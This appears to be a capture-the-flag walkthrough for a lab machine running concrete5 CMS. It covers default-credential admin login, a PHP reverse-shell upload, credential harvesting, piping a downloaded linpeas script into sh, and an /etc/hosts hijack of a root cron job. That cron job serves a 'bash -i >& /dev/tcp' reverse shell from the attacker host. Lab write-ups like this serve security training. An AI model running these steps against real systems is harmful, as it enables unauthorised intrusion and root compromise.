 # How to get access to the admin panel:
First we scan website by using nmap:
<pre> nmap -sV VICTIM_IP_ADRESS </pre>
After using nmap we can see that port 85 is open:

![image](https://github.com/user-attachments/assets/d0e4f543-0a32-4e3a-9baf-21c18ce4db59)

After that we run gobuster, we can see that there is /app directory:
<pre>gobuster dir -u "http://10.10.151.9:85/" -w /usr/share/wordlists/dirb/small.txt -t 64</pre>
![Bez tytułu](https://github.com/user-attachments/assets/5cf1f095-12b2-4022-abd1-26df6afa62e9)

After clicking on "Jump" button we are redirected to: 
![image](https://github.com/user-attachments/assets/5a8c3552-8589-41f3-8828-bd6d1a132a19)

We can scan for subdirectories to find something intresting. After some time I found database.php file in /config directory. We'll use it later:
![image](https://github.com/user-attachments/assets/366199be-a023-4fb6-9a7c-64de12f49556)

On the bottom of the page we can see that website uses concrete5 CMS:
![image](https://github.com/user-attachments/assets/724469aa-2898-40f5-9a0c-3b57745afaa0)

After clicking on Log in, we are redirected to the login panel. We want to log in as admin. The login credentials are:
<pre>Username: admin </pre>
<pre>Password: password </pre>

# How to reverse shell
## On victim machine
On the admin panel we go to System settings -> Files -> Allowed File Types. Add php to allowed file types:

![image](https://github.com/user-attachments/assets/9a76b22e-0758-4501-8a17-ca3c46b68cc1)

After that we have to create shell.php file on attacker machine. You can use this: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
In website files add shell.php file:
![image](https://github.com/user-attachments/assets/8c92daa3-47ef-423f-96d3-76a197717059)
After that you will see popup window where there is written where .php file is stored:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

## On attacker machine
Run listener:
<pre> nc -lvnp 4444 </pre>
Go back to browser and in new tab go to:
<pre>http://VICTIM_IP_ADRESS:85/app/castle/application/files/6217/4308/6870/shell.php</pre>

We can see that reverse shell worked. Run:
<pre> python3 -c 'import pty; pty.spawn("/bin/bash")' </pre>
to get acess to terminal:
![image](https://github.com/user-attachments/assets/9d5bac6d-1e00-4ef2-96ed-1b3a7aa1d1cc)

# Get users credentials
Now we can go back to database.php file we found:
![image](https://github.com/user-attachments/assets/c177072f-b9d0-45c7-b119-4bcc48774eca)
From the file we have credentials to log in as toad. Run <pre>su toad</pre> to log in. In toad there is no user.txt or root.txt, but from env we can get credentials to mario:
![image](https://github.com/user-attachments/assets/f467a7ab-fe55-4fb8-ad63-98154e493d70)
Use CyberChef to decrypt base64 Mario password: <pre>ikaTeNTANtES</pre>

Know log in as mario. In mario directory there is user.txt file. Use less to get flag:
![image](https://github.com/user-attachments/assets/0834e2fd-2a48-4ec2-a16a-f84c0b150d06)
For the root.txt file we must get root access.

# How to get root
We will use
1.	linpeas.sh: http://michalszalkowski.com/security/linpeas/
2.	Documentation: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

## On attacker machine
Download linpeas.sh file:
<pre>wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh chmod +x linpeas.sh</pre>

Run server:
<pre>sudo python3 -m http.server 9000</pre>

## On victim machine
Curl file from attacker machine to victim machine and run:
<pre>curl <attacker_machine_ip_adress>/linpeas.sh | sh</pre>

During the scan we can see that /etc/hosts is writable.
![image](https://github.com/user-attachments/assets/9ec6d78b-bf12-4972-990f-988be268f138)

After checking all running processes and cron jobs, there is a cron job which executes with root privilege every minute: curl mkingdom.thm:85/app/castle/application/counter.sh
After you add an entry to /etc/hosts, any attempt to refer to mkingdom.thm from this machine will now be directed to your IP address 10.10.6.168.

<pre> echo "10.10.6.168   mkingdom.thm" >> /etc/hosts </pre>
Unfortunately, this alone did not work and as you can see in the screenshot below, the cron job still calls 127.0.1.1:
![image](https://github.com/user-attachments/assets/db84ae46-3c58-4a6a-8c23-40b4bc6fa090)

The workaround is to overwrite the entire file manually:
<pre> cat << EOF > /tmp/hosts_fixed
127.0.0.1       localhost
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.6.168     mkingdom.thm
EOF
</pre>

Copy your custom /tmp/hosts_fixed file and overwrites the system’s /etc/hosts file with it.
<pre>cp /tmp/hosts_fixed /etc/hosts</pre>

As shown below, the cron job is configured to reach the attacker's machine:
![image](https://github.com/user-attachments/assets/466df7d9-9eba-4e64-8704-baf2c15270f8)

## On attacker machine
Create the folder structure:
<pre>mkdir -p app/castle/application
cd app/castle/application
</pre>

After that create counter.sh:
<pre>cat << EOF > counter.sh
#!/bin/bash
bash -i >& /dev/tcp/<attacker_machine_ip_address>/4444 0>&1
EOF
</pre>

Lastly change permission to executable:
<pre>chmod +x counter.sh</pre>

Full process:
![image](https://github.com/user-attachments/assets/bdcd3fc4-7ebe-40b0-9e55-fc67dca3001b)

In two separate terminals run:
<pre>python3 -m http.server 85</pre>
<pre>nc -lvnp 4444</pre>

Wait for cron to trigger:
![image](https://github.com/user-attachments/assets/f390b7ce-7501-4bf4-b7c8-bccf738083ad)
![image](https://github.com/user-attachments/assets/f734f8b5-5c6b-46cf-a38d-204315b04709)

Know we reverse shell as root:
![image](https://github.com/user-attachments/assets/d09eb426-53c8-4e87-81af-c42d098a7f0c)

Use less to check flag:
![image](https://github.com/user-attachments/assets/e03dee91-a4fe-4886-be92-681dbabda795)

